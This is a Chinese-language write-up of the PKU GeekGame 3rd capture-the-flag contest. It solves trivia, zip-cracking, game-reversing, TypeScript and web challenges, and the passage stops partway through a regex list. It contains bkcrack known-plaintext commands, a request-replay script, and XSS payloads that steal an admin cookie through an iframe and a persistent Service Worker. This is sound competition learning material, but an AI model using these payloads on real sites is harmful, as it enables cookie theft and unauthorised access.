






# GeekGame 3rd Writeup

> *第一次参加 CTF 比赛，很有趣*
> 
> *by H4kur31*

## 一眼盯帧

> *鉴定为签到*

1. 提取 gif 帧：[在线GIF图片帧拆分工具 - UU在线工具 (uutool.cn)](https://uutool.cn/gif2img/)

2. 恺撒密码解密：synt{trrxtnzrgurguveq}

## 小北问答

> *PKU GeekGame 不能失去小北问答，就像东方不能失去博丽灵梦*
> 
> *一 辈 子 的 小 北 问 答*

1. 在北京大学（校级）高性能计算平台中，什么命令可以提交一个非交互式任务？
   
   说明书：[【4】提交作业 · Doc (pku.edu.cn)](https://hpc.pku.edu.cn/_book/guide/slurm/slurm.html)
   
   非交互式任务使用`sbatch`进行提交

2. 根据 GPL 许可证的要求，基于 Linux 二次开发的操作系统内核必须开源。例如小米公司开源了 Redmi K60 Ultra 手机的内核。其内核版本号是？
   
   Github 仓库源码：[MiCode/Xiaomi_Kernel_OpenSource at corot-t-oss (github.com)](https://github.com/MiCode/Xiaomi_Kernel_OpenSource/tree/corot-t-oss)，Makefile 里即可看到版本：`5.15.78`
   
   这题是参加本届 CTF 的一大遗憾，没有认真检查 Makefile，而是去溯源上游的 Android 版本，得到了`5.15.41`。小米是在 9月29日 提交的这个 commit，在此之前 Makefile 版本都是`5.15.41`，比其 8 月份的发售日期要晚，但实际上这一个 commit 包含了 Redmi K60 Ultra Kernel 的多数 changes，因此还是要以`5.15.78`为准

3. 每款苹果产品都有一个内部的识别名称（Identifier），例如初代 iPhone 是 `iPhone1,1`。那么 Apple Watch Series 8（蜂窝版本，41mm 尺寸）是什么？
   
   找到一份列表：[List of Apple's mobile device codes types a.k.a. machine ids (github.com)](https://gist.github.com/adamawolf/3048717?permalink_comment_id=3894165)
   
   `Watch6,16 : Apple Watch Series 8 41mm case (GPS+Cellular)`

4. 本届 PKU GeekGame 的比赛平台会禁止选手昵称中包含某些特殊字符。截止到 2023 年 10 月 1 日，共禁止了多少个字符？
   
   因为第 3 问错误，故这题给出提示了也没做

5. 在 2011 年 1 月，Bilibili 游戏区下共有哪些子分区？（按网站显示顺序，以半角逗号分隔）根据这篇文章：[B站编年史 绝对有你所不了解的历史，（干货十足） - 哔哩哔哩 (bilibili.com)](https://www.bilibili.com/read/cv57580/)，2011 年 1 月时，b站的域名还是：`bilibili.us`，然后通过网页时光机即可找到答案：
   
   

6. 这个照片中出现了一个大型建筑物，它的官方网站的域名是什么？（照片中部分信息已被有意遮挡，请注意检查答案格式）
   
   首先搜索图片中同时出现的几个赞助商，找到一篇新闻：[国际科技园协会（中国办公室）IASP CHINA OFFICE (iaspbo.com.cn)](http://www.iaspbo.com.cn/contents/2/533)，了解到这是 2023 年的卢森堡 IASP 世界大会：
   
   
   
   完   全   一   致
   
   一开始直接填的**卢森堡科技港**的官网`technoport.lu`，后来想想不一定对，于是仔细查了 IASP 40TH 的会议主页、流程以及住宿页面：
   
   - [协会 (iaspworldconference.com)](https://www.iaspworldconference.com/)
   
   - [Programme - IASP - IASP (iaspworldconference.com)](https://www.iaspworldconference.com/conference/programme/)
   
   - [Accommodation - IASP - IASP (iaspworldconference.com)](https://www.iaspworldconference.com/destination/accommodation/)
   
   流程上 13th September 2023 有如下内容：
   
   > Transfer to Belval
   > 
   > - Buses departing from ECCL square
   
   ECCL square 这个名字有些宽泛，于是先从 Google 地图上找到一家最近的酒店——Meliá Luxembourg——根据 Accommodation 页面描述，这家酒店就在 ECCL square 对面：
   
   
   
   接着，ECCL square 附近的一个流线型建筑**卢森堡音乐厅**引起了我的注意，于是从街景里成功找到了拍摄者的位置：
   
   

## Z 公司的服务器

先看了眼附件，注意到`rz .`命令，结合题意这里用到了一种古老的文件传输协议，于是找到`lrzsz`工具。题目需要使用`nc`作为隧道，但琢磨了很久不知道应该怎么使用`lrzsz`，网络上的资料也基本没有纯命令使用的，最后抱着试试的态度下载了`SecureCRT`，选择`RAW`模式，没想到连接成功后直接下载下`flag.txt`



第二问研究了一下感觉有点复杂，Zmodem 协议会给每个子数据包结尾插入`18 69`和 4 字节的 CRC 校验位，但就算去掉了这些东西拿到的图片大小也是和传输时对不上，还是等看官方和其他人的 WP 吧

## 基本功

### 简单的 flag

拿到 zip 文件先用 WinHex 看一眼是不是伪加密，发现不是，由于压缩文件中存在一个名为`chromedriver_linux64.zip`的文件，因此考虑明文攻击，其原始大小是`5845152`字节，Google 找到对应的版本：



下载之：[chromedriver.storage.googleapis.com/index.html?path=89.0.4389.23/](https://chromedriver.storage.googleapis.com/index.html?path=89.0.4389.23/)

使用 bkcrack 进行破译：

`.\bkcrack -C challenge_1.zip -c chromedriver_linux64.zip -p chromedriver_linux64.zip`

密钥：`811b2321 415ba634 63ec77a1`

`.\bkcrack -C .\challenge_1.zip -k 811b2321 415ba634 63ec77a1 -U unlocked.zip 123456`

（这里对 bkcrack 用的不太熟练，所以重新改了密码，应该也可以用`-d`）

参考：

- [kimci86 / bkcrack：使用Biham和Kocher已知的明文攻击破解传统的zip加密。 (github.com)](https://github.com/kimci86/bkcrack)
- [【CTF 攻略】CTF比赛中关于zip的总结-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/86211)
- [ZIP已知明文攻击深入利用 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/255145.html)

### 冷酷的 flag

文件条目是 pcapng 扩展，所以可以用特殊的文件头进行明文攻击

先把纯十六进制的 pcapng 文件头输入到文件：

`echo -n "00004D3C2B1A01000000FFFFFFFFFFFFFFFF" | xxd -r -ps > pcap_plain1`

解密时需要注意文件头的偏移是 6

`.\bkcrack -C challenge_2.zip -c flag2.pcapng -p pcap_plain1 -o 6`

`.\bkcrack -C challenge_2.zip -k bb569cff ce056529 180532e5 -U unlocked2.zip 123456`

参考：

- [ZIP已知明文攻击深入利用 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/255145.html)

## Dark Room

先从源码中找到地图文件画出来：

| Front_Door   |             |           |          |              |         |
| ------------ | ----------- | --------- | -------- | ------------ | ------- |
| Locked_Door2 | Hallway     | Hallway   | Bad_Room |              |         |
| flag room    |             | Hallway   |          |              |         |
|              |             | Dark_Room | Hallway  | Hallway      | Lootway |
|              | Good_Choice |           |          | Locked_Door1 |         |
|              | Choice_Room | Hallway   | Hallway  | Hallway      |         |
|              | Bad_Choice  |           |          | Loot_Dirty   |         |

把游戏打通后提示需要 117% 的 sanity，打了两遍发现最优路径都是 91% 的 sanity，于是研究源代码（全文件搜索`sanity +=`），发现可以去 Locked_Door2 那里反复用两把钥匙开门刷 sanity，遂拿到 flag1

关于 flag2，一阶段时根本没看明白那段`flag_number >> 1`想要干嘛，二阶段时发现这里被偷偷修改成了`flag_number >>= 1`，手测的时候能明显感觉到不同的响应时间，猜测大概可以用类似时间盲注那种方法，但已经来不及编写脚本了。

## 麦恩·库拉夫特

> *谁叫我不玩 MC*

好在第一问只需要在地图中跟着火把就能找到 flag1，但差点晕 3D

后面两个 flag 完全没有思路，等到二阶段提示才知道要去看存档

（结合 krkr 那题可以总结出：遇到游戏有关的题目最好尝试着去解析存档文件）

一开始搜索找到的是 python 的 anvil-parser 库，bug 挺多而且很不直观

后来换成 NBTExplorer：[Releases · jaquadro/NBTExplorer (github.com)](https://github.com/jaquadro/NBTExplorer/releases)

在`region`文件夹下搜索`value`:`flag`可以找到 flag1、flag2 以及 flag3 的提示

看到 flag3 和红石模电相关，果断放弃

## Emoji Wordle

### Level 2

先做出了第二问，仔细观察了源代码和网络请求，发现唯一可能携带信息的地方是 cookie

搜索发现是 JWT token：



遂打开 JWT 解密网站：[jwt解密/加密 - bejson在线工具](https://www.bejson.com/jwt/)

解密获得信息：

```json
{
  "data": {
    "level": "2",
    "remaining_guesses": "8",
    "target": "👃👃💂👣👞👛👩👵👙👝👢👗👧👓🐻👂👁👗👕💃👷👛👖👽👥👠🐻👸👳👹👡💃👩👾👩👔👳👽👱👳👢👈💉💆👨👗👇👶👪🐿🐻👈👀👟👾👚👕👓👻👩👳👆👙👪"
  },
  "nbf": 1697376915,
  "iat": 1697376915
}
```

### Level 1

复制了随机的 placeholder 直接提交，发现居然能有数十个黄色方块，说明 placeholder 与答案大概率同属一个并不大的集合

可以选择收集每次打开网页得到的 64 个 emoji 到一个 set，然后每次选择一个 emoji\*64 提交，存储正确的 emoji 位置

收集 emoji 的代码：

```python
import requests
import re

url = "https://prob14.geekgame.pku.edu.cn/level1"

s = set()
while True:
    response = requests.get(url).text
    emoji_pattern = re.compile(r'[\U0001F600-\U0001F64F\U0001F300-\U0001F5FF\U0001F680-\U0001F6FF\U0001F700-\U0001F77F\U0001F780-\U0001F7FF\U0001F800-\U0001F8FF\U0001F900-\U0001F9FF\U0001FA00-\U0001FA6F\U0001FA70-\U0001FAFF\U0001FAB0-\U0001FAB6\U0001FAC0-\U0001FAC2\U0001FAD0-\U0001FAD6]+', flags=re.UNICODE)
    # ChatGPT找到的范围
    emojis = emoji_pattern.findall(response)

    for letter in emojis[0]:
        s.add(letter)

    print(len(s))
    if (len(s) == 128):
        # 即使不知道大小，也可以在多次请求且len(s)未变化的情况下终止
        break

print(s)
```

枚举的代码和下面 Level 3 类似

### Level 3

Token 变成了这样：

```json
{
  "data": {
    "level": "3",
    "start_time": "1697733244961",
    "remaining_guesses": "3",
    "seed": "1.0594675769394547E12"
  },
  "nbf": 1697733244,
  "iat": 1697733244
}
```

在三次提交过程中，`start_time`和`seed`均未变化。题目指出此题不属于 Algorithm，因此无需了解生成算法，那么大概率是要篡改 token 或者重放

我一开始是自定义了一个 token，用 jwt 库加密放到 cookie 里，但发现同样的 params，得到的结果居然是不一样的，于是我换用`requests.Session()`，接连遇到几个不同的情况：

1. `session.get(url, params=params, cookies=cookies)`，这样子请求虽然结果都是一样的，但只能请求三次，设置了`remaining_guesses`也会被无视。而且 session 互相之间即便使用了相同的`cookies`，答案也是迥异的

2. `session.cookies.update(cookies)`，这样子更新虽然没有次数限制了，但答案依旧不同

转念一想生成 session-cookie 是服务器做的事情，自己设置 cookie 根本就没有对应的 session 啊，太笨了:\(

抄起 Burpsuite 测试一下，果然直接重放就没有次数限制了，Python 代码如下：

```python
import requests
import re

url = 'https://prob14.geekgame.pku.edu.cn/level3'

session = requests.Session()
response = session.get(url)  # 第一次请求的 header 没有 JWT
response = session.get(url)
headers = response.request.headers

emojis = ['🐿', '👆', '👀', '👪', '👘', '🐘', '💄', '💋', '👟', '👶', 
          '👩', '🐔', '💃', '👠', '👱', '👔', '🐑', '🐶', '💁', '👺', 
          '🐒', '🐞', '👃', '🐰', '👊', '👻', '👂', '🐝', '💎', '👡', 
          '🐮', '👲', '👍', '👚', '👧', '🐲', '💈', '🐹', '👽', '🐣', 
          '🐺', '🐜', '🐸', '🐵', '💀', '👗', '🐚', '👭', '🐡', '👄', 
          '👁', '👦', '👵', '👰', '👮', '🐼', '🐟', '🐠', '👥', '🐖', 
          '🐙', '💂', '👉', '🐷', '🐫', '👌', '👤', '🐾', '👛', '👕', 
          '💏', '👈', '💇', '🐩', '👇', '🐢', '🐨', '👑', '�', '👙', 
          '💉', '👋', '💌', '🐦', '🐕', '💅', '👏', '👜', '🐥', '💆', 
          '👾', '👎', '🐱', '👹', '🐗', '👖', '👯', '👓', '🐐', '👢', 
          '🐤', '💊', '👒', '👼', '🐛', '🐬', '🐻', '🐓', '👬', '👿', 
          '👅', '👫', '👞', '🐽', '👸', '🐴', '👝', '🐯', '👳', '🐳', 
          '🐭', '🐪', '🐧', '💍', '👐', '👷', '👨', '👴']
# 我这里的 emojis 似乎不全，但是不影响通过
params = { 'guess': '' }
pattern = r'[🟩🟨🟥]+'
emoji_result = ['0'] * 64

for i in range(128):
    params['guess'] = emojis[i] * 64
    response = requests.get(url, headers=headers, params=params)
    try:
        results = re.search(pattern, response.text).group()
        print(results)
        for j in range(64):
            if results[j] == '🟩':
                emoji_result[j] = emojis[i]
        print(emoji_result)
    except:
        print(response.text)

params['guess'] = ''.join(emoji_result)
response = requests.get(url, headers=headers, params=params)
print(response.text)
session.close()
```

## 第三新 XSS

### 巡猎

很基础的 XSS 绕过路径，parent 可以利用内联读取子路径下的 cookie，连响应头都不需要特殊设置：

```html
<head>
</head>
<body>
<script>
    iframe = document.createElement('iframe');
    iframe.src = 'http://127.0.0.1:5000/admin';
    iframe.onload = function() {
        document.title = iframe.contentWindow.document.cookie;
    };
    document.body.appendChild(iframe);
</script>
</body>
```

### 记忆

看到源代码时有些懵，先访问攻击页面，关闭后再访问个人页面也会被攻击？脑海中 JSONP、onbeforeunload 事件一闪而过，然并卵……难道有什么 GoogleDriver 的 exp？……当然这里也没有。最后还是看了提示才知道要用 Service Worker

Service Worker 相当于服务器和客户端的一个中间人，能提供持久化控制，但有`https`和`scope`的限制，且生命周期是 24小时

代码参考下面两篇文章：

- [Xss Via Service Worker-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2069767)

- [XSS持久化：Service Worker ~ Misaki's Blog (misakikata.github.io)](https://misakikata.github.io/2021/06/XSS%E6%8C%81%E4%B9%85%E5%8C%96%EF%BC%9AService-Worker/)

先注册一个 service worker

文件名：sw，响应头：

```json
{"Content-Type": "application/javascript","Service-Worker-Allowed":"/"}
```

内容：

```javascript
this.addEventListener('install', function (event) {
  console.log('Service Worker install');
});
this.addEventListener('fetch', function (event) {
    var url = event.request.clone();
    console.log('url: ', url);
    var body = '<script>setTimeout(function() { document.title = document.cookie }, 600);</script>';
    var init = {headers: {"Content-Type": "text/html"}};
    if (url.url === 'https://127.0.0.1:5000/admin/') {
        var res = new Response(body, init);
        event.respondWith(res.clone());
    }
});
```

再注册一个攻击页面

文件名：hack，响应头：

```json
{"Content-Type": "text/html"}
```

内容：

```html
<script>
  if ('serviceWorker' in navigator) {
navigator.serviceWorker.register('/sw/', { scope: '/' })
    .then(function (reg) {
      console.log('success', reg);
    })
    .catch(function (err) {
      console.log('fail', err);
    });
  }
</script>
```

首先需要全程使用`https`才能注册服务，其次要保证两个页面都在一个 scope，但 nginx 会导致资源自动重定向，即`/hack`会重定向到`/hack/`而`/sw`会重定向到`/sw/`，这导致无法注册到上一级，因此`.js`的响应头中需要包含`"Service-Worker-Allowed":"/"`

参考：

- [javascript - How exactly add "Service-Worker-Allowed" to register service worker scope in upper folder - Stack Overflow](https://stackoverflow.com/questions/49084718/how-exactly-add-service-worker-allowed-to-register-service-worker-scope-in-upp)

## 简单的打字稿

### 无用的尝试

题目是 Deno 提供的 TypeScript 交互环境，要求输出存储在 type 里的 flag，然而 TypeScript 会在执行前转换成不包含任何 Meta 信息的 JavaScript 代码

我最开始不知道 TS 类型体操是什么东西，只能漫无目的的搜索如何打印 type 值

stackoverflow 直接说执行时获得 type 值是不可能的：[javascript - How to get the value of the declared type in TypeScript? - Stack Overflow](https://stackoverflow.com/questions/76363055/how-to-get-the-value-of-the-declared-type-in-typescript)

如果硬要搞就只能调用 TypeScript 的编译器API或者 Reflect：

- [面试官：你说你会玩TS类型体操，那你能把类型打印出来吗？ - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/531376648)

- [编译器 API - Deno 手册 (denojs.cn)](https://www.denojs.cn/manual/runtime/compiler_apis.html)

- [reflect_metadata@v0.1.12-2 德诺 (deno.land)](https://deno.land/x/reflect_metadata@v0.1.12-2)

但是 Compiler 必须在（子）进程启用`--unstable`的情况下才能使用，而 Reflect 更是需要连网下载……

急了，开始枚举全局对象：

```typescript
function listGlobalThisObjects(obj: any) {
  for (const key in obj) {
    if (obj.hasOwnProperty(key)) {
      console.log(key, obj[key]);
      if (typeof obj[key] === "object" && obj[key] !== null) {
        listGlobalThisObjects(obj[key]);
      }
    }
  }
}

// 列出全局对象 globalThis 的所有子对象
listGlobalThisObjects(globalThis);
```

甚至尝试修改 stdout、stderr：`Deno.writeAll(Deno.stderr, text)`

到最后人麻了，才开始看 TypeScript 的文档，发现居然还有类型体操这种东西，我就不该去看 Deno 的文档……本届 CTF 第二遗憾，拖到二阶段才把题目做出来

### Super Easy

```typescript
type ReverseString<Str extends string> = Str extends `${ infer First }${ infer Rest }` ? `${ ReverseString<Rest> }${ First }` : Str;
type hack = ReverseString<flag1>;
let a: hack = 1;
```

只需要如上的简洁代码即可绕过报错过滤获得 flag1

参考：

- [玩转 TS 模板字符串类型 - 掘金 (juejin.cn)](https://juejin.cn/post/7129864202604249096)

### Very Easy

代码如下，可以在[官方网站](https://www.typescriptlang.org/play)测试：

```typescript
type flag2 = object | { new (): { v: () => (a: (a: unknown, b: { 'flag{...}': never } & Record<string, string>) => never) => unknown } }

type New = Extract<flag2, { new(): {}}>
// 提取 new 函数
type ExtractedFunction_1<T> = T extends new()=>{ v(): infer V } ? V : never;
type V = ExtractedFunction_1<New>;
type ExtractedFunction_2<T> = T extends (a: infer V)=>unknown ? V : never;
type a1 = ExtractedFunction_2<V>;
type ExtractedFunction_3<T> = T extends (a: unknown, b: infer V)=>never ? V : never;
type a2 = ExtractedFunction_3<a1>;
// 提取嵌套函数和参数
type a3 = Partial<a2>;
// 设置所有属性可读
type GetOptional<T> = {[P in keyof T as T[P] extends Required<T>[P] ? never: P]: T[P]}
type flagstr = keyof GetOptional<a3>;
// 提取可读属性的键
type ReverseString<Str extends string> = Str extends `${ infer First }${ infer Rest }` ? `${ ReverseString<Rest> }${ First }` : Str;
type hack = ReverseString<flagstr>;
let a: hack = 1;
```

第一步：从联合类型中提取函数，用自带的 Extract 方法

- [6 Ways to Use Extract in TypeScript Total TypeScript](https://www.totaltypescript.com/uses-for-extract-type-helper)
- [TypeScript: Documentation - Utility Types (typescriptlang.org)](https://www.typescriptlang.org/docs/handbook/utility-types.html)

第二步：使用 infer、extends 关键字提取函数体或者函数参数

- [TypeScript：一文搞懂 infer - 掘金 (juejin.cn)](https://juejin.cn/post/6998347146709696519)

第三步：从交叉类型中提取 flag，这也是最难的地方，上面第二步得到的 type 类型是

```typescript
type a2 = {'flag{...}':never} & Record<string, string>
```

对象格式的 type 进行交叉运算得到的是二者的加集，用字面量写就是这样：

```typescript
{
  string: string
  'flag': never
}
```

但是用`keyof`关键字只能提取出`string`，这是因为`flag`也属于`string`

当然，枚举语法`[P in T]`还是可以访问到的，加上`extends`关键字就能可以想办法提取，只不过这类花活对于我这种没写过类型体操的人来说多少有些抽象了

于是乎我挨个尝试了官网文档里给的方法，虽然毫无进展，但依稀记得`Partial`这个方法能够为`flag`添加只读属性，而`string`却没有获得这种属性：


然后我又找到一个神奇的[网站](https://github.com/type-challenges/type-challenges/blob/main/README.zh-CN.md)，里面汇聚了大量前辈们的智慧，我恰好找到一句能获取对象只读属性的代码：

```typescript
type GetOptional = {[P in keyof T as T[P] extends Required[P] ? never: P]: T[P]}
```

大功告成！

## 汉化绿色版免费下载

> *发现做的人比较多于是也跟风尝试了下，这题虽然属于 binary，却包含了 misc 元素，做起来很有意思。翻阅 KAG 手册后感觉自己也能用 krkr做 galgame剧本了ww*

### 普通下载

根据游戏内部描述是要读取存档，存档文件为：`data0.kdt`, `datasc.ksd`, `datasu.ksd`

搜索找到一篇 blog：

- [探究 kirikiri 引擎的存档文件 .ksd / .kdt 内容格式（解析）和存档机制 - 一年又一年的博客 (iyn.me)](https://iyn.me/i/post-45.html)

作者详细介绍了这两种后缀名的文件是 kirikiri 引擎的存档，指出可以通过开源工具解密：

- [arcusmaximus/KirikiriTools: Tools for the Kirikiri visual novel engine (github.com)](https://github.com/arcusmaximus/KirikiriTools)

文件解密后都是些键值对，看上去可能和 flag 有关的是`data0.kdt`结尾处的`prev_hash`

我尝试再第一次输入 flag 前保存存档并解密，发现此时不存在`prev_hash`，说明程序对第一次输入的 flag 做了某种运算得到的这个数字

然后又看到一篇文章

- [一些关于吉里吉里的XP3文件加解密研究（主要用于FHA汉化）](https://ultrapre.github.io/clip/%E6%B1%89%E5%8C%96%E7%A0%B4%E8%A7%A3%E7%A0%94%E8%AE%A8%E5%AE%A4/2019-10-13-1570938381/index.html)

里面提到了`.xp3`存在剧本资源，需要通过`ExtractData`进行提取，遂下载提取之：

- [ExtractData 免费高速下载](https://cloud.189.cn/web/share?code=FJ7VvivU3yYf) （真·汉化绿色版）

提取资源后在`scenario`文件夹下找到了关键算法：`round1.ks`和`round2.ks`

翻了一下`done.ks`，flag1 就在这里

### 高速下载

很容易写出逆运算，prev_hash 最终的值是 7748521，上一步运算是：`f.hash = f.hash % 19260817`，而 flag 结尾是`}`，有方程：

$$
x\:(\,mod\:13337\,)=66\\
x\:(\,mod\:19260817\,)=7748521
$$

CRT 解得最小的 x 是 235182324091，不断乘以 LCM（256881516329）往前递推，能算出最短的 flag 是`flag{OEIUIOAAAU}`，看上去相当流畅，但这不是正确答案

题目指出”如果发现多解说明你漏掉了一些信息“，但是我从`.kdt`那几个文件中也没看出什么有价值的信息

再次查看`.xp3`提取出的文件，在`Config.tjs`下找到一些额外信息：

```js
// ◆ 自动记录已读文章
//选择是否自动记录已读的剧本标签。
//如果这个设定为true，则每次通过标签时都会给系统变量中的
//trail_剧本_剧本文件名_标签名
//这个变量的值+1
//比如first.ks中*start这个标签的话，对应的变量名称将是trail_first_start。
//此外，未通过的部分将是定义。
//“通过标签”只是，结束了那个标签的内容，执行了其中的所有指令，进入了其他的标签，此时才会记录标签已通过。
//所谓“标签的终结”，就是指以下的场合。这些场合下该标签将被标为“已读”。
//
//通过执行[s]命令而判断剧本到达终端。
//出现了下一个标签。
//通过jump指令跳跃。
//通过link和button指令跳跃到所指向的地方。
//执行return命令的时候。
//    ( 请留意，即使文章没有表现出来，跳往分支的话也会变成「已读」
//      参照link 和 button 指令的 countpage 属性 )

;autoRecordPageShowing = true;
```

在之前的代码中每个分支都是一个 link，link 的已读属性由变量`trail_脚本名_标签名`记录

然后读了读 KAG3 的指令手册

- [KAG System Reference (nvlmaker.net)](https://www.nvlmaker.net/manual/docs/kag3doc/contents/index.html)

修改`round1.ks`：

```js
[link target=*sel_a clickse="SE_306"]> 输入 A[endlink][r]
[emb exp="sf.trail_round1_sel_a"][r]
[link target=*sel_e clickse="SE_306"]> 输入 E[endlink][r]
[emb exp="sf.trail_round1_sel_e"][r]
[link target=*sel_i clickse="SE_306"]> 输入 I[endlink][r]
[emb exp="sf.trail_round1_sel_i"][r]
[link target=*sel_o clickse="SE_306"]> 输入 O[endlink][r]
[emb exp="sf.trail_round1_sel_o"][r]
[link target=*sel_u clickse="SE_306"]> 输入 U[endlink][r]
[emb exp="sf.trail_round1_sel_u"][r]
[link target=*sel_fin clickse="SE_306"]> 输入 }[endlink][r]
[s]
```

用 KirikiriTools 的 Xp3Pack 工具打包替换原本的`data.xp3`，运行程序，就能看见选择次数：


DFS 即可：

```python
crt = 235182324091
mod = 256881516329

def generate_children(initial_value, max_depth):
    stack = [(initial_value, [], {'A': 0, 'E': 0, 'I': 0, 'O': 0})]
    operators = [11, 22, 33, 44]
    mapping = {
        11: 'A',
        22: 'E',
        33: 'I',
        44: 'O',
    }

    while stack:
        current_value, operation_list, char_count = stack.pop()

        if len(operation_list) == 16 and (((current_value * 13337) + 66) % mod == crt):
            mapped_array = [mapping[num] for num in operation_list]
            flag_str = ''.join(mapped_array)
            print("flag{" + flag_str + "}")
            break

        if len(operation_list) < max_depth:
            for op in operators:
                new_value = (current_value * 13337) + op
                new_operation_list = operation_list + [op]
                new_char_count = char_count.copy()
                char = mapping[op]
                new_char_count[char] += 1

                if (
                    new_char_count['A'] <= 6 and
                    new_char_count['E'] <= 3 and
                    new_char_count['I'] <= 1 and
                    new_char_count['O'] <= 6
                ):
                    stack.append((new_value, new_operation_list, new_char_count))

if __name__ == "__main__":
    max_depth = 16  # 最大深度
    initial_value = 1337
    generate_children(initial_value, max_depth)
```

## 初学 C 语言

栈结构长这样：



printf(buf, publics, publici) 可以利用格式化字符串漏洞构造 payload 打印出 flag1



X86 体系结构忘了好多，做不出第二题了，呜呜，下次一定

## 关键词过滤喵，谢谢喵

> *治好了我的猫猫过敏症*

### 字数统计喵

先把所有字符替换成👆，在字符串开头维护长度数值，每匹配到一个👆就替换成👇，同时把数值加1。要点是实现进位操作

```txt
把【[^👆]】替换成【👆】喵
把【^(\d*)(.*)】替换成【\g<1>0\g<2>】喵
插数：
把【^([\d\+]+)(.+)】替换成【\g<1>+0\g<2>】喵
把【👆(.*)$】替换成【👇\1】喵
把【(\d*?)0\+0】替换成【\g<1>1】喵
把【(\d*?)1\+0】替换成【\g<1>2】喵
把【(\d*?)2\+0】替换成【\g<1>3】喵
把【(\d*?)3\+0】替换成【\g<1>4】喵
把【(\d*?)4\+0】替换成【\g<1>5】喵
把【(\d*?)5\+0】替换成【\g<1>6】喵
把【(\d*?)6\+0】替换成【\g<1>7】喵
把【(\d*?)7\+0】替换成【\g<1>8】喵
把【(\d*?)8\+0】替换成【\g<1>9】喵
把【(\d*?)9\+0】替换成【\g<1>+00】喵
把【^\+00】替换成【10】喵
把【(\d*?)0\+00】替换成【\g<1>10】喵
把【(\d*?)1\+00】替换成【\g<1>20】喵
把【(\d*?)2\+00】替换成【\g<1>30】喵
把【(\d*?)3\+00】替换成【\g<1>40】喵
把【(\d*?)4\+00】替换成【\g<1>50】喵
把【(\d*?)5\+00】替换成【\g<1>60】喵
把【(\d*?)6\+00】替换成【\g<1>70】喵
把【(\d*?)7\+00】替换成【\g<1>80】喵
把【(\d*?)8\+00】替换成【\g<1>90】喵
把【(\d*?)9\+00】替换成【\g<1>+000】喵
把【^\+000】替换成【100】喵
把【(\d*?)0\+000】替换成【\g<1>100】喵
把【(\d*?)1\+000】替换成【\g<1>200】喵
把【(\d*?)2\+000】替换成【\g<1>300】喵
把【(\d*?)3\+000】替换成【\g<1>400】喵
把【(\d*?)4\+000】替换成【\g<1>500】喵
把【(\d*?)5\+000】替换成【\g<1>600】喵
